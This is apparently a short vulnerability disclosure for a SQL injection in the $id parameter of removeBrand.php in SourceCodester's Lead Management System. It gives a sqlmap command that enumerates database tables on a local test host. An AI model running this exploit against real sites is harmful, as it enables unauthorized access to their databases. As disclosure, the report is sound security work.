 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/208410479-0fe99b11-a62b-46df-995c-feb6094213e4.png)


EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeBrand.php?id=1" --dbms=mysql -D penglead --tables
```
![image](https://user-images.githubusercontent.com/30823782/208410533-34bdbb81-a554-4b38-a8c2-88bd13f2e859.png)
